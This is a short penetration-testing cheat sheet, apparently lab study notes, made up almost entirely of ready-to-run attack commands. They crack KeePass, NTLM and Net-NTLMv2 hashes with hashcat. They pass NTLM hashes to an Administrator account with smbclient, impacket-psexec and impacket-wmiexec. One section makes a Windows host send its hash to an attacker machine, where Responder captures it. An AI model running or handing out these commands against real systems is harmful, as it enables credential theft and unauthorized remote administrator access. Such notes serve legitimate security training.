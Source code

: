 First remove "Database" string from hash:

```
cat keepass.hash   
$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1b7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e...
```

Cracking KeePass hash:

```
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

## Cracking NTLM hash

```
hashcat -m 1000 admin.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

## Passing NTML hash

#### Smbclient

```
smbclient \\\\<<IP>>\\secrets -U Administrator --pw-nt-hash <<NTML_HASH>>
```

#### Psexec

```
impacket-psexec -hashes 00000000000000000000000000000000:<<NTML_HASH>> Administrator@<<IP>>
```

#### Wmiexec

```
impacket-wmiexec -hashes 00000000000000000000000000000000:<<NTML_HASH>> Administrator@<<IP>>
```


## Cracking Net-NTLMv2 hash

Dir command to create SMB connection to our attacker machine:
```
C:\Windows\system32> dir \\<<IP>>\test
Access is denied.
```

Responder capturing the Net-NTLMv2 hash:
```
sudo responder -I tap0 
```

Cracking captured hash:
```
hashcat -m 5600 admin.hash /usr/share/wordlists/rockyou.txt --force
```
